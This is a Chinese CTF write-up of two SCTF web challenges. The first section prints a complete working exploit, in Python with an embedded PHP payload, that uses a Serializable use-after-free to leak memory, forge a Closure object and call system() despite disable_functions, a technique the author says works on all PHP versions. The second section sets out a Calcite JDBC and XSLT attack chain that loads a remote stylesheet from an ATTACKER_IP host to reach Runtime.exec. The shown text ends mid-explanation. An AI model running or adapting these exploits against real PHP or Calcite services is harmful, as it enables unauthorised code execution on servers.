

## TL;DR

之前一直觉得 SCTF 的 web 质量不错，现在看来也还可以，这次想发博客就是因为一道 php 的题目，在前两周我在成都的时候，我闲着没事，但是我买了一个 pro5x，正好看到 UAF 可攻击 php 全版本，当时就估摸着 XCTF Final 的时候烧麦就是这样打的那道 php 的题，于是我就用 AI 写了一个 antsword 的插件，但是各版本偏移实在是太繁琐了，所以就想着开源，而且我自己试了试，其实并不是特别好用，没想到今天打 CTF 用上了


## phpstilAlive

### 题目信息

`disable_functions` 禁用了所有命令执行函数（system, exec, shell_exec, proc_open 等）及大量文件操作函数（fopen, file_get_contents, scandir 等），`open_basedir` 限制为 `/var/www/html:/tmp`，同时在 `eval()` 前对代码进行 token 分析，拦截特定类名和函数调用。`/tmp` 目录权限为 `0555`（不可写），Flag 文件 `/lfag-9f1d7c2e-6a2c-4e54-9d7e-6cb10c4b8f9a` 属主 `root:root`，权限 `0400`。

通过 `php://filter/convert.base64-encode` 读取 `index.php` 源码，发现 `snippet_is_blocked()` 函数实现了以下检查：

**blocked_names**

```
ArrayIterator, ArrayObject, DateInterval, DateTime, DateTimeImmutable,
DatePeriod, HashContext, MultipleIterator, RecursiveArrayIterator,
SplDoublyLinkedList, SplHeap, SplMaxHeap, SplMinHeap, SplObjectStorage,
WeakMap, WeakReference
```

**blocked_calls**

```
prev, session_start, session_unset, settype, spl_autoload_register,
spl_autoload_unregister, call_user_func, call_user_func_array,
date_create, date_create_immutable, date_diff,
date_interval_create_from_date_string
```

此外 `T_CLONE` 关键字被禁，`new $variable` 和 `new (expr)` 被禁（但 `new ClassName` 允许），字符串字面量中包含 blocked_names/blocked_calls 的内容也会被拦截。

绕过思路是用 `chr()` 拼接构造类名字符串，再用 `class_alias()` 创建别名来绕过 blocked_names；将函数名通过 `chr()` 逐字符拼接赋值给变量，再用变量函数调用来绕过 blocked_calls：

```php
// 绕过 blocked_names
$dll_name = chr(83).chr(112).chr(108)...;  // "SplDoublyLinkedList"
class_alias($dll_name, "DLL");

// 绕过 blocked_calls
$fn = chr(112).chr(114).chr(101).chr(118);  // "prev"
$fn($arg);
```

### 利用链

**核心漏洞: PHP Serializable var_hash UAF**

`zend_user_unserialize()` 在调用 `Serializable` 类的 `unserialize()` 方法前未递增 `BG(serialize_lock)`。递归的 `unserialize()` 继承了外层的 `var_hash`；当内部对象触发属性哈希表 resize（从 nTableSize=8 扩容到 16）时，原始的 288 字节 arData 缓冲区被 `efree`，但外层 `var_hash` 中的 `R:N` 引用仍然指向已释放的内存。

```php
class ASUAFCD implements Serializable {
    public function serialize() { return ''; }
    public function unserialize($data) {
        unserialize($data)->x = 0;  // 第 9 个属性插入触发 resize
    }
}
```

**堆地址泄漏 → 对象指针扫描**

构造序列化 payload，spray 32 个 280 字节的字符串填充堆。通过 `R:N` 引用指向 UAF 的 freed 内存，freed 内存被 spray 字符串复用后，比较 spray 内容与原始值的差异来泄漏堆上 `zend_reference` 地址。

拿到堆地址后，利用 UAF 读原语，将堆 chunk 的起始地址（2MB 对齐）作为 fake `zend_string` 读取整个 chunk 内容，在其中扫描 Closure 对象的特征模式（refcount、type_info=8、handle、ce、handlers），找到 Closure 类的 `ce` 和 `handlers` 指针。

**定位 executor_globals → 绕过 disable_functions**

从 `closure_handlers`（位于 PHP 二进制的 `.data`/`.bss` 段）向高地址以 8 字节步进搜索，验证候选地址是否指向一个有效的 `HashTable`（function_table 通常有 100-10000 个条目），找到后通过偏移反推 `executor_globals` 基地址，再从 `EG + 0x130` 定位 `symbol_table`。

在 function_table 中查找 `var_dump` 等已知函数，从其 `zend_internal_function` 结构读取 `module` 指针，找到 `standard` 模块。然后遍历模块的 `zend_function_entry[]` 数组（C 层静态结构，不受 `disable_functions` 影响），直接获取 `zif_system` 的内存地址。

**构造 Fake Closure → 类型混淆**

在 PHP 变量中构造一个 512 字节的字符串，其内容模拟 `zend_closure` 结构体：

```
offset 0x00: refcount = 0x7FFFFFFF (防止被 GC)
offset 0x04: type_info = 0x18 (IS_OBJECT)
offset 0x10: ce = <Closure class entry>
offset 0x18: handlers = <closure_handlers>
offset 0x38: type = 1 (ZEND_INTERNAL_FUNCTION)
offset 0x90: handler = <zif_system address>
```

通过 `EG.symbol_table` 线性搜索找到存储 fake closure 字符串的全局变量 `_xfc`，读取其 `zend_string` 地址，加上 header 偏移（24 字节）得到 fake closure 对象在堆上的精确地址。

最后一次 UAF：spray 中将 freed slot 的类型标记为 `IS_OBJECT`（0x08），值设为 fake closure 地址。反序列化后 `$result[33]` 被 PHP 引擎视为一个 Closure 对象，调用 `$result[33]("/readflag")` 实际执行了 `zif_system("/readflag")`。

```php
(new X)->run("/readflag");
```

exp 如下
```python
#!/usr/bin/env python3
import requests
import re
import html as h
import sys

URL = sys.argv[1] if len(sys.argv) > 1 else "http://web-633eacb1ff.adworld.xctf.org.cn:80/"
CMD = sys.argv[2] if len(sys.argv) > 2 else "/readflag"

PAYLOAD = r"""<?php
error_reporting(0);
set_time_limit(25);
class ASUAFCD implements Serializable {
    public function serialize(){return '';}
    public function unserialize($data){unserialize($data)->x=0;}
}
$GLOBALS['_cl']=function(){};
class X{
    private $AM=0x7FFFFFFFFFFF;
    private function uso(){return 40;}
    private function bi(){$p='';for($k=0;$k<8;$k++){$n="p$k";$p.='s:'.strlen($n).':"'.$n.'";i:'.(0xAAAA0000+$k).';';}return'O:8:"stdClass":8:{'.$p.'}';}
    private function bsl($m=0xBBBB0000){$s=str_repeat("\x00",280);for($k=0;$k<8;$k++){$vo=8+$k*32;$to=$vo+8;if($to+4>280)break;$v=$m+$k;$s[$vo]=chr($v&0xFF);$s[$vo+1]=chr(($v>>8)&0xFF);$s[$vo+2]=chr(($v>>16)&0xFF);$s[$vo+3]=chr(($v>>24)&0xFF);$s[$vo+4]=$s[$vo+5]=$s[$vo+6]=$s[$vo+7]="\x00";$s[$to]="\x04";$s[$to+1]=$s[$to+2]=$s[$to+3]="\x00";}return$s;}
    private function bss($ta){$s=str_repeat("\x00",280);$vo=40;$ab=pack('P',$ta);for($i=0;$i<8;$i++)$s[$vo+$i]=$ab[$i];$to=$vo+8;$s[$to]="\x06";$s[$to+1]=$s[$to+2]=$s[$to+3]="\x00";for($k=0;$k<8;$k++){if($k==1)continue;$vo2=8+$k*32;$to2=$vo2+8;if($to2+4>280)break;$s[$to2]="\x04";$s[$to2+1]=$s[$to2+2]=$s[$to2+3]="\x00";}return$s;}
    private function bso($oa){$s=str_repeat("\x00",280);$vo=40;$ab=pack('P',$oa);for($i=0;$i<8;$i++)$s[$vo+$i]=$ab[$i];$to=$vo+8;$s[$to]="\x08";$s[$to+1]="\x03";$s[$to+2]=$s[$to+3]="\x00";for($k=0;$k<8;$k++){if($k==1)continue;$vo2=8+$k*32;$to2=$vo2+8;if($to2+4>280)break;$s[$to2]="\x04";$s[$to2+1]=$s[$to2+2]=$s[$to2+3]="\x00";}return$s;}
    private function bp($spray,$nr=1){$inner=$this->bi();$cp='C:7:"ASUAFCD":'.strlen($inner).':{'.$inner.'}';$t=1+32+$nr;$parts=['i:0;'.$cp];for($i=0;$i<32;$i++)$parts[]='i:'.($i+1).';s:280:"'.$spray.'";';for($k=0;$k<$nr;$k++)$parts[]='i:'.(33+$k).';R:'.(4+$k).';';return'a:'.$t.':{'.implode('',$parts).'}';}
    private function ur($addr,$n=8){foreach([0,8,0x10,0x20,0x40,0x80,0x100,0x200] as $bias){$ta=$addr-0x18-$bias;if($ta<0x1000)continue;$r=@unserialize($this->bp($this->bss($ta),1));if($r===false)continue;$str=$r[33];if(!is_string($str)||strlen($str)<=$bias+$n-1)continue;$out=substr($str,$bias,$n);if(strlen($out)>=$n)return$out;}return false;}
    private function r8($a){$d=$this->ur($a,8);if($d===false||strlen($d)<8)return false;return unpack('P',$d)[1];}
    private function r8r($a,$t=3){for($i=0;$i<$t;$i++){$v=$this->r8($a);if($v!==false)return$v;}return false;}
    private function hl(){$spray=$this->bsl();$orig=$spray;$r=@unserialize($this->bp($spray,8));if($r===false)return false;for($i=1;$i<=32;$i++){$s=$r[$i];for($k=0;$k<8;$k++){$vo=8+($k+1)*32;if(substr($s,$vo,8)!==substr($orig,$vo,8))return unpack('P',substr($s,$vo,8))[1];}}return false;}
    private function fop($ha){$chunk=$ha&0xFFFFFFFFFFE00000;for($i=0;$i<256;$i++)$GLOBALS["_s$i"]=function(){};for($att=0;$att<3;$att++){$r=@unserialize($this->bp($this->bss($chunk-0x10),1));if($r===false)continue;$str=$r[33];if(!is_string($str))continue;$sl=strlen($str);if($sl<0x10000)continue;$mx=min($sl,0x200000-8);$pairs=[];for($off=8;$off+32<=$mx;$off+=16){$rc=unpack('V',substr($str,$off,4))[1];if($rc<1||$rc>50)continue;$ti=ord($str[$off+4])&0x0F;if($ti!=8)continue;$handle=unpack('V',substr($str,$off+8,4))[1];if($handle==0||$handle>100000)continue;$pad=unpack('V',substr($str,$off+12,4))[1];if($pad!=0)continue;$ce=unpack('P',substr($str,$off+16,8))[1];$hdl=unpack('P',substr($str,$off+24,8))[1];if($ce==0||$hdl==0)continue;if(($hdl&(~0x1FFFFF))==$chunk)continue;if($hdl<0x10000||$hdl>$this->AM)continue;$key=sprintf("%x",$hdl);if(!isset($pairs[$key]))$pairs[$key]=['ce'=>$ce,'h'=>$hdl,'c'=>0];$pairs[$key]['c']++;}if(empty($pairs))continue;usort($pairs,function($a,$b){return$b['c']-$a['c'];});return[$pairs[0]['ce'],$pairs[0]['h']];}return false;}
    private function fft($hdl){for($d=0x20;$d<0x300;$d+=8){foreach([0x1b0,0x1c8] as $fto){$pa=$hdl+$d+$fto;$dd=$this->ur($pa,24);if($dd===false)continue;$fp=unpack('P',substr($dd,0,8))[1];$cp=unpack('P',substr($dd,8,8))[1];if($fp<0x10000||$fp>$this->AM||$cp<0x10000||$cp>$this->AM)continue;if(abs($fp-$cp)>0x1000000)continue;$htd=$this->ur($fp+0x0C,16);if($htd===false)continue;$ntm=unpack('V',substr($htd,0,4))[1];$ad=unpack('P',substr($htd,4,8))[1];$nnu=unpack('V',substr($htd,12,4))[1];$pos=(~$ntm+1)&0xFFFFFFFF;if($pos<64||($pos&($pos-1))!=0)continue;if($ad<0x10000||$ad>$this->AM||$nnu<100||$nnu>10000)continue;return['ad'=>$ad,'ntm'=>$ntm,'d'=>$d,'fto'=>$fto];}}return false;}
    private function zhf($key){$h=5381;for($i=0;$i<strlen($key);$i++)$h=(($h<<5)+$h)+ord($key[$i]);return$h|(1<<63);}
    private function htf($ad,$ntm,$key){$h=$this->zhf($key);$ni=(($h&0xFFFFFFFF)|$ntm)&0xFFFFFFFF;if($ni>=0x80000000)$ni-=0x100000000;$d=$this->ur($ad+$ni*4,4);if($d===false)return false;$idx=unpack('V',$d)[1];if($idx===0xFFFFFFFF)return false;$kl=strlen($key);for($c=0;$c<16;$c++){$ba=$ad+$idx*32;$b=$this->ur($ba,32);if($b===false)return false;$kp=unpack('P',substr($b,24,8))[1];if($kp!=0){$kd=$this->ur($kp+16,8+$kl);if($kd!==false){$slen=unpack('P',substr($kd,0,8))[1];if($slen==$kl&&substr($kd,8,$kl)===$key)return$b;}}$next=unpack('V',substr($b,12,4))[1];if($next===0xFFFFFFFF)return false;$idx=$next;}return false;}
    private function rs($a,$ml=16){$d=$this->ur($a,$ml);if($d===false)return false;$s='';for($i=0;$i<strlen($d);$i++){$c=ord($d[$i]);if($c==0)break;if($c>=0x20&&$c<=0x7e)$s.=chr($c);else return false;}return$s;}
    private function fsm($ad,$ntm){$probes=['var_dump','array_push','phpversion','strtolower'];foreach($probes as $fn){$b=$this->htf($ad,$ntm,$fn);if($b===false)continue;$fp=unpack('P',substr($b,0,8))[1];$cand=$this->r8r($fp+0x60);if($cand===false||$cand<0x10000||$cand>$this->AM)continue;$np=$this->r8r($cand+0x20);if($np===false)continue;$name=$this->rs($np);if($name==='standard'){$funcs=$this->r8r($cand+0x28);if($funcs===false)continue;for($j=0;$j<600;$j++){$entry=$funcs+$j*0x30;$fnp=$this->r8r($entry);if($fnp===false||$fnp==0)continue;$fname=$this->rs($fnp);if($fname==='system')return$this->r8r($entry+0x08);}}}return false;}
    private function fst($hdl,$combined){foreach([0x1b0,0x1c8] as $fto){$delta=$combined-$fto;if($delta<0)continue;$st=$hdl+$delta+0x130;$d=$this->ur($st+0x0C,16);if($d===false)continue;$m=unpack('V',substr($d,0,4))[1];$ad=unpack('P',substr($d,4,8))[1];$nu=unpack('V',substr($d,12,4))[1];$m32=$m&0xFFFFFFFF;if($m32<0xFFFF0000)continue;$pos=(~$m32+1)&0xFFFFFFFF;if(($pos&($pos-1))!==0||$pos<4)continue;if($ad<0x10000)continue;if($nu>500)continue;return$st;}return false;}
    private function htfl($st,$name){$d=$this->ur($st+0x0C,20);if($d===false||strlen($d)<20)return false;$ad=unpack('P',substr($d,4,8))[1];$nnu=unpack('V',substr($d,12,4))[1];if($ad<0x10000||$ad>$this->AM||$nnu<=0||$nnu>1024)return false;$kl=strlen($name);for($idx=0;$idx<$nnu;$idx++){$ba=$ad+$idx*32;$b=$this->ur($ba,32);if($b===false||strlen($b)<32)continue;$kp=unpack('P',substr($b,24,8))[1];if($kp==0)continue;$kd=$this->ur($kp+16,8+$kl);if($kd===false||strlen($kd)<8+$kl)continue;$slen=unpack('P',substr($kd,0,8))[1];if($slen==$kl&&substr($kd,8,$kl)===$name)return$b;}return false;}
    private function fvsa($st,$name){$b=$this->htfl($st,$name);if($b===false)return false;$type=ord($b[8]);$val=unpack('P',substr($b,0,8))[1];if($type==6)return$val;if($type==10){$inner=$this->ur($val+8,16);if($inner!==false&&ord($inner[8])==6)return unpack('P',substr($inner,0,8))[1];}if($type==15){$inner=$this->ur($val,16);if($inner!==false&&ord($inner[8])==6)return unpack('P',substr($inner,0,8))[1];}return false;}
    public function run($cmd){
        $ha=$this->hl();if(!$ha)return;
        $ptrs=$this->fop($ha);if(!$ptrs)return;list($ce,$hdl)=$ptrs;
        $ft=$this->fft($hdl);if(!$ft)return;
        $sys=$this->fsm($ft['ad'],$ft['ntm']);if(!$sys)return;
        $combined=$ft['d']+$ft['fto'];
        $st=$this->fst($hdl,$combined);if(!$st)return;
        $fc=str_repeat("\x00",512);
        $fc[0]="\xff";$fc[1]="\xff";$fc[2]="\xff";$fc[3]="\x7f";
        $fc[4]="\x18";$fc[5]=$fc[6]=$fc[7]="\x00";
        $p=pack('P',$ce);for($i=0;$i<8;$i++)$fc[0x10+$i]=$p[$i];
        $p=pack('P',$hdl);for($i=0;$i<8;$i++)$fc[0x18+$i]=$p[$i];
        $fc[0x38]="\x01";
        $p=pack('V',1);for($i=0;$i<4;$i++)$fc[0x58+$i]=$p[$i];
        for($i=0;$i<4;$i++)$fc[0x5C+$i]=$p[$i];
        $p=pack('P',$sys);for($i=0;$i<8;$i++)$fc[0x90+$i]=$p[$i];
        $GLOBALS["_xfc"]=$fc;
        $sp=$this->fvsa($st,"_xfc");if(!$sp)return;
        $oa=$sp+24;
        $r=@unserialize($this->bp($this->bso($oa),1));
        if($r===false)return;
        if(!is_object($r[33]))return;
        $r[33]($cmd);
    }
}
(new X)->run("__CMD__");
?>"""

def exploit(url, cmd):
    code = PAYLOAD.replace("__CMD__", cmd)
    r = requests.post(url, data={"code": code}, verify=False, timeout=30)
    m = re.search(r'class="out">(.*?)</pre>', r.text, re.DOTALL)
    if m:
        return h.unescape(m.group(1))
    return None

if __name__ == "__main__":
    requests.packages.urllib3.disable_warnings()
    result = exploit(URL, CMD)
    if result:
        print(result)
    else:
        print("exploit failed", file=sys.stderr)
        sys.exit(1)

```

## great_sql
这道题就两个点：理解 Calcite jdbc 与平常有什么不同、绕过字节大小限制

### Calcite JDBC 的特殊之处

题目是一个基于 Apache Calcite Avatica 的 Java Web 服务。`/flag` 权限为 `400`，`/readflag` 是 SUID 程序，权限为 `4555`，可以以 root 权限读取 `/flag` 并将结果输出到 stdout。

```dockerfile
FROM eclipse-temurin:21-jre-jammy
COPY bin/app/great-sql.jar /opt/great-sql/great-sql.jar
COPY bin/start.sh /start.sh
COPY bin/flag /flag
COPY --from=readflag-builder /readflag /readflag
RUN chmod 400 /flag && chmod 4555 /readflag
```

服务入口在 `com.greatsql.ServerMain`。`main` 方法显式加载 `org.apache.calcite.jdbc.Driver`，随后通过 Avatica 的 `Main.start()` 启动 HTTP Server：

```java
public static void main(String[] args) throws Exception {
    Class.forName("org.apache.calcite.jdbc.Driver");  // 加载 Calcite JDBC 驱动
    int port = readPort();
    String[] handlerArgs = new String[]{Factory.class.getName()};
    HttpServer server = Main.start(handlerArgs, port,
        new ServerMain.HandlerFactory());
    System.out.println("Great SQL is listening on " + server.getPort());
    Thread.currentThread().join();
}
```

这条启动链里最关键的是两个内部类：`ConfigurableJdbcMeta` 和 `LengthLimitedJsonHandler`。前者决定后端 JDBC 连接如何创建，后者决定 Avatica JSON 请求如何进入服务端以及请求体大小限制。

`Factory` 创建 `ConfigurableJdbcMeta`，并设置 `caseSensitive=false`。这里传入父类的 JDBC URL 是空字符串，真正的后端 JDBC URL 并不是服务端固定配置，而是由客户端在 `openConnection` 请求的 `info` 字段中动态传入：

```java
public final class ServerMain.Factory implements Meta.Factory {
    public Meta create(List<String> args) {
        Properties props = new Properties();
        props.setProperty("caseSensitive", "false");
        return new ServerMain.ConfigurableJdbcMeta("", props);
    }
}
```

`ConfigurableJdbcMeta` 继承自 `org.apache.calcite.avatica.jdbc.JdbcMeta`，重写了 `createConnection`。该方法会复制客户端传入的全部 `info` 属性，从中取出 `jdbcUrl`，只移除 `jdbcUrl` 本身，然后把它作为真实后端 URL 传给 `super.createConnection()`：

```java
public final class ServerMain.ConfigurableJdbcMeta extends JdbcMeta {
    private static final String JDBC_URL_PROPERTY = "jdbcUrl";

    protected Connection createConnection(String url, Properties info)
            throws SQLException {
        Properties copy = new Properties();
        copy.putAll(info);                        // 复制客户端所有属性
        String backendUrl = removeBackendUrl(copy); // 提取并移除 jdbcUrl
        if (backendUrl == null) {
            throw new SQLException("Missing backend JDBC URL property: jdbcUrl");
        }
        return super.createConnection(backendUrl, copy); // 直接传给 JdbcMeta
    }

    private static String removeBackendUrl(Properties props) {
        String url = props.getProperty("jdbcUrl");
        props.remove("jdbcUrl");                  // 移除 jdbcUrl 避免冲突
        if (url == null || url.trim().isEmpty()) return null;
        return url.trim();
    }
}
```

漏洞触发点就在这里：`jdbcUrl` 由客户端完全控制，并且没有协议白名单、目标限制或参数过滤。与此同时，除了 `jdbcUrl` 被移除外，`info` 里的其他属性会继续传给 Calcite Driver。后续使用的 `model=inline:...` 正是通过这个机制进入 Calcite 连接属性的。

HTTP 层由 `LengthLimitedJsonHandler` 处理。它只接受 POST 请求，并对 JSON 请求体做了 280 字节限制。限制不是单点检查，而是在读取过程中检查一次，读取完成后又分别检查 `String.length()` 和 UTF-8 字节长度：

```java
public final class ServerMain.LengthLimitedJsonHandler extends AbstractHandler {
    private final JsonHandler jsonHandler;
    private static final int MAX_JSON_LENGTH = 280;

    public void handle(String target, Request baseRequest,
            HttpServletRequest request, HttpServletResponse response)
            throws IOException, ServletException {
        baseRequest.setHandled(true);
        response.setContentType("application/json;charset=utf-8");

        // 只接受 POST
        if (!"POST".equals(request.getMethod())) {
            response.setStatus(405);
            response.getWriter().write("{\"error\":\"Only POST is supported\"}");
            return;
        }

        // 读取请求体
        String jsonBody;
        try {
            jsonBody = readJsonBody(request);
        } catch (PayloadTooLargeException e) {
            rejectTooLarge(response);
            return;
        }

        // 双重 280 字节检查：String.length() 和 UTF-8 bytes
        if (jsonBody.length() > 280 ||
            jsonBody.getBytes(StandardCharsets.UTF_8).length > 280) {
            rejectTooLarge(response);
            return;
        }

        // 交给 Avatica JsonHandler 处理
        Handler.HandlerResponse<String> resp = jsonHandler.apply(jsonBody);
        response.setStatus(resp.getStatusCode());
        response.getWriter().write(resp.getResponse());
    }

    // readJsonBody 在读取过程中也会检查字节数超过 280 就抛出 PayloadTooLargeException
    private static String readJsonBody(HttpServletRequest request) throws IOException {
        Charset charset = request.getCharacterEncoding() != null
            ? Charset.forName(request.getCharacterEncoding())
            : StandardCharsets.UTF_8;
        InputStream in = request.getInputStream();
        ByteArrayOutputStream buf = new ByteArrayOutputStream();
        byte[] tmp = new byte[256];
        int n;
        while ((n = in.read(tmp)) != -1) {
            buf.write(tmp, 0, n);
            if (buf.size() > 280) {
                throw new PayloadTooLargeException();  // 读取时实时检查
            }
        }
        return buf.toString(charset);
    }
}
```

因此利用链不仅要能控制 JDBC 连接参数，还必须把每个 Avatica JSON 请求压到 280 字节以内。

Avatica JSON 协议的请求类型由 Jackson 多态反序列化决定。请求体中的 `"request"` 字段会映射到对应的 `Service.Request` 子类，例如 `"openConnection"` 会进入 `OpenConnectionRequest`：

```java
@JsonTypeInfo(use = Id.NAME, property = "request",
              defaultImpl = Service.SchemasRequest.class)
@JsonSubTypes({
    @Type(value = CatalogsRequest.class, name = "getCatalogs"),
    @Type(value = OpenConnectionRequest.class, name = "openConnection"),
    @Type(value = CreateStatementRequest.class, name = "createStatement"),
    @Type(value = PrepareAndExecuteRequest.class, name = "prepareAndExecute"),
    // ... 等
})
public abstract class Service.Request extends Service.Base { ... }
```

`OpenConnectionRequest` 的 `info` 是一个 `Map<String, String>`，它会被服务端传入 `createConnection`，最终影响后端 Calcite JDBC 连接：

```java
public class Service.OpenConnectionRequest extends Service.Request {
    public final String connectionId;
    public final Map<String, String> info;

    @JsonCreator
    public OpenConnectionRequest(
            @JsonProperty("connectionId") String connectionId,
            @JsonProperty("info") Map<String, String> info) {
        this.connectionId = connectionId;
        this.info = info;
    }
}
```

整体调用关系可以概括为：

```text
POST / Avatica JSON
  → LengthLimitedJsonHandler.handle()
  → jsonHandler.apply(jsonBody)
  → Jackson 根据 request 反序列化为 OpenConnectionRequest
  → JdbcMeta.openConnection()
  → ConfigurableJdbcMeta.createConnection(url, info)
  → removeBackendUrl(info) 取出 jdbcUrl
  → super.createConnection(backendUrl, copy)
  → Calcite Driver 处理 jdbcUrl 和剩余连接属性
```

由于 `jdbcUrl` 和剩余连接属性都由客户端控制，而 classpath 中已经加载了 `org.apache.calcite.jdbc.Driver`，所以可以让后端连接进入 Calcite，并通过 `model=inline:...` 加载内联模型。实际请求中使用的是 `jdbcUrl:"jdbc:calcite:"`，同时在 `info` 中保留 `model:"inline:..."`。因为 `removeBackendUrl()` 只移除 `jdbcUrl`，`model` 会继续作为 Calcite 连接属性传递给 Driver。

Calcite 的 `ModelHandler` 会处理 `inline:` 前缀。它去掉前缀后，根据内容首字符选择 JSON 或 YAML 解析器，并将内容反序列化为 `JsonRoot`：

```java
public ModelHandler(CalciteConnection connection, String modelUri)
        throws IOException {
    this.connection = connection;
    this.modelUri = modelUri;

    ObjectMapper mapper;
    JsonRoot root;
    if (modelUri.startsWith("inline:")) {
        String content = modelUri.substring("inline:".length()).trim();
        // 根据内容首字符选择 JSON 或 YAML 解析器
        mapper = (content.startsWith("/*") || content.startsWith("{"))
            ? JSON_MAPPER : YAML_MAPPER;
        root = mapper.readValue(content, JsonRoot.class);
    } else {
        // ... 文件路径处理
    }
    visit(root);
}
```

Calcite Model 支持在 schema 中注册 Java 类的静态方法为 SQL 函数。`JsonMapSchema` 中包含 `functions` 列表，每个 `JsonFunction` 指定 SQL 函数名、Java 类名和方法名：

```java
public class JsonMapSchema extends JsonSchema {
    public final List<JsonTable> tables;
    public final List<JsonType> types;
    public final List<JsonFunction> functions;
}

public class JsonFunction {
    public final String name;       // SQL 中的函数名
    public final String className;  // Java 全限定类名
    public final String methodName; // Java 方法名，"*" 表示注册所有静态方法
    public final List<String> path;
}
```

实际注册逻辑在 `ModelHandler.addFunctions`。这里的关键点是：当 `methodName` 为 `"*"` 时，`ScalarFunctionImpl.functions(clazz)` 会枚举该类的所有静态方法，并逐一注册为 SQL 标量函数；如果指定了具体方法名，则只注册对应方法：

```java
public static void addFunctions(SchemaPlus schema, String name,
        List<String> path, String className, String methodName,
        boolean caseSensitive) {
    Class<?> clazz = Class.forName(className);

    // 先尝试 TableFunction 和 TableMacro
    TableFunction tableFunc = TableFunctionImpl.create(clazz, methodName);
    if (tableFunc != null) { schema.add(name, tableFunc); return; }

    TableMacro macro = TableMacroImpl.create(clazz);
    if (macro != null) { schema.add(name, macro); return; }

    // methodName == "*" → 注册所有静态方法
    if (methodName != null && methodName.equals("*")) {
        ImmutableMultimap<String, ScalarFunction> funcs =
            ScalarFunctionImpl.functions(clazz);
        for (Map.Entry<String, ScalarFunction> entry : funcs.entries()) {
            String funcName = entry.getKey();
            if (caseSensitive) {
                funcName = funcName.toUpperCase(Locale.ROOT);
            }
            schema.add(funcName, entry.getValue());
        }
        return;
    }

    // 最后尝试单个 ScalarFunction
    ScalarFunction scalarFunc =
        ScalarFunctionImpl.create(clazz, methodName);
    if (scalarFunc != null) {
        schema.add(effectiveName, scalarFunc);
        return;
    }
    // ... AggregateFunction 尝试
}
```

这里选择注册两个类：

- `java.lang.System`，`methodName: "*"`：用于获得 `setProperty`、`getProperty`、`getenv`、`currentTimeMillis` 等静态方法。
- `org.apache.calcite.runtime.XmlFunctions`，`methodName: "xmlTransform"`，SQL 名称为 `X`：用于获得 XSLT 转换能力。

原始模型如下：

```yaml
version: 1.0
defaultSchema: S
schemas:
- name: S
  functions:
  - className: java.lang.System
    methodName: "*"
  - name: X
    className: org.apache.calcite.runtime.XmlFunctions
    methodName: xmlTransform
```

但这个模型同时包含 `System` 和 `XmlFunctions` 时，`openConnection` 的 JSON 请求会超过 280 字节。实测 System-only 模型 payload 为 224 字节，XmlFunctions-only 为 267 字节，因此最终采用两个连接拆分：Connection A 只注册 `System`，用于设置 JVM 全局 JAXP 属性；Connection B 只注册 `XmlFunctions.xmlTransform`，用于执行 XSLT。由于 `System.setProperty()` 修改的是 JVM 全局系统属性，所以 Connection A 设置的属性对 Connection B 可见。

第一步，通过 Avatica JSON 协议打开 Connection A，注册 `java.lang.System` 的所有静态方法，然后执行三条 SQL 设置 JAXP 属性，允许 XSLT Java extension 和外部 stylesheet 访问。

```json
{"request":"openConnection","connectionId":"a1","info":{"jdbcUrl":"jdbc:calcite:","model":"inline:version: 1.0\ndefaultSchema: S\nschemas:\n- name: S\n  functions:\n  - className: java.lang.System\n    methodName: \"*\"\n"}}
```

```sql
select"setProperty"('jdk.xml.enableExtensionFunctions','true')
select"setProperty"('javax.xml.accessExternalStylesheet','all')
select"setProperty"('javax.xml.accessExternalDTD','all')
```

第二步，打开 Connection B，注册 `XmlFunctions.xmlTransform` 为 SQL 函数 `X`。

```json
{"request":"openConnection","connectionId":"b1","info":{"jdbcUrl":"jdbc:calcite:","model":"inline:version: 1.0\ndefaultSchema: S\nschemas:\n- name: S\n  functions:\n  - name: X\n    className: org.apache.calcite.runtime.XmlFunctions\n    methodName: xmlTransform\n"}}
```

`xmlTransform` 位于 `org.apache.calcite.runtime.XmlFunctions`。它接收 XML 和 XSLT 两个字符串参数，从 `ThreadLocal` 中取得 `TransformerFactory`，用传入的 XSLT 编译 `Transformer`，再对 XML 执行转换，最后把 `StringWriter` 中的结果作为 SQL 函数返回值返回：

```java
public static String xmlTransform(String xml, String xslt) {
    if (xml == null || xslt == null) return null;

    try {
        StreamSource xsltSource = new StreamSource(new StringReader(xslt));
        StreamSource xmlSource  = new StreamSource(new StringReader(xml));

        TransformerFactory factory =
            TRANSFORMER_FACTORY.get();  // ThreadLocal 缓存的工厂

        Transformer transformer = factory.newTransformer(xsltSource);
        StringWriter sw = new StringWriter();
        StreamResult result = new StreamResult(sw);

        transformer.setErrorListener(new InternalErrorListener());
        transformer.transform(xmlSource, result);
        return sw.toString();
    } catch (TransformerConfigurationException e) {
        throw RESOURCE.illegalXslt(xslt).ex();   // "Illegal xslt specified"
    } catch (TransformerException e) {
        throw RESOURCE.invalidInputForXmlTransform(xml).ex();
    }
}
```

这里有两个关键点：

第一，`factory.newTransformer(xsltSource)` 会直接从字符串编译 XSLT，只要 XSLT 能通过 `xsl:value-of` 输出内容，该内容就会进入 `StringWriter`，并最终作为 SQL 查询结果返回

第二，`TransformerFactory` 通过 `ThreadLocal.withInitial(TransformerFactory::newInstance)` 懒初始化，也就是说某个线程第一次调用 `xmlTransform` 时才会创建工厂，并读取当前 JVM 系统属性，所以必须在执行 XSLT 之前先通过 Connection A 调用 `System.setProperty()`。

并且不要设置 `javax.xml.transform.TransformerFactory` 为 JDK 21 中不存在的类名，不然`TransformerFactory.newInstance()` 会失败。正确做法是保持该属性为 `null`，让 JDK 21 使用默认 XSLTC 实现。

### 恶意 XSLT 文件构造

即使把 XSLT 压到很短，仅包含命名空间、模板和一条 `Runtime.exec`，也需要约 250 个字符。由于 XSLT 中有大量双引号，而 JSON 中双引号必须写成 `\"`，最终请求体会远超 280 字节，可以使用分段传输再触发的方法，也可以直接使用 `xsl:import` 加载外部 XSLT，很明显此时后者更简单

```xml
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" version="1.0">
<import href="http://ATTACKER_IP:9999/w"/>
</stylesheet>
```

压缩后的 stub 约 129 字节，完整的 Avatica `prepareAndExecute` JSON 请求约 271 字节，可以压进 280 字节限制内。外部 XSLT 不再受服务端 JSON 请求体长度限制。

在 Xalan Java extension 机制中，可以通过 XML 命名空间绑定 Java 类或包。例如：

```xml
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
```

